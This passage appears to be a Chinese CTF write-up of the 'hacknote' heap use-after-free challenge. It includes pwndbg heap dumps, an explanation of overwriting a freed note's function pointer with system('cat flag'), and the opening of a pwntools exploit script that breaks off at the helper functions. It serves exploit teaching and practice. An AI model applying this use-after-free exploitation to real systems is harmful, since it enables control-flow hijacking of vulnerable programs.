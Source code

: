 其中0x0804865b是print_note_content的地址。



我们接下来将两个结构体free了

```
pwndbg> x/20wx 0x0804b198
0x804b198:	0x00000000	0x00000011	0x0804b1b0	0x0804b010
0x804b1a8:	0x00000000	0x00000011	0x00000000	0x0804b010
0x804b1b8:	0x00000000	0x00000011	0x0804b1d0	0x0804b010
0x804b1c8:	0x00000000	0x00000011	0x0804b1a0	0x0804b010
0x804b1d8:	0x00000000	0x00021e29	0x00000000	0x00000000

pwndbg> bin
tcachebins
0x10 [  4]: 0x804b1c0 —▸ 0x804b1d0 —▸ 0x804b1a0 —▸ 0x804b1b0 ◂— 0x0
fastbins
0x10: 0x0
0x18: 0x0
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

(后续复现出现一些区别，留个坑后面填)

回到上头重新创建两个结构体，大小经历在（13`28之间，使得size大小内容为0x00000021）

造好后的chunck信息如下：

```
pwndbg> x/60wx 0x0804b198
0x804b198:	0x00000000	0x00000011	0x0804865b	0x0804b1b0
0x804b1a8:	0x00000000	0x00000021	0x61616161	0x61616161
0x804b1b8:	0x0000000a	0x00000000	0x00000000	0x00000000
0x804b1c8:	0x00000000	0x00000011	0x0804865b	0x0804b1e0
0x804b1d8:	0x00000000	0x00000021	0x61616161	0x61616161
0x804b1e8:	0x0000000a	0x00000000	0x00000000	0x00000000
```

虽然chunk在一起，但是无法进行溢出。没有修改功能，也不能自己构造结构体。那么只能去考虑释放与重新申请的过程中能够有所突破。假设我们将print()函数指针替换成system(“cat flag”)指针就可以拿到flag了。



```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
r = process('./hacknote')

def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)
def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
```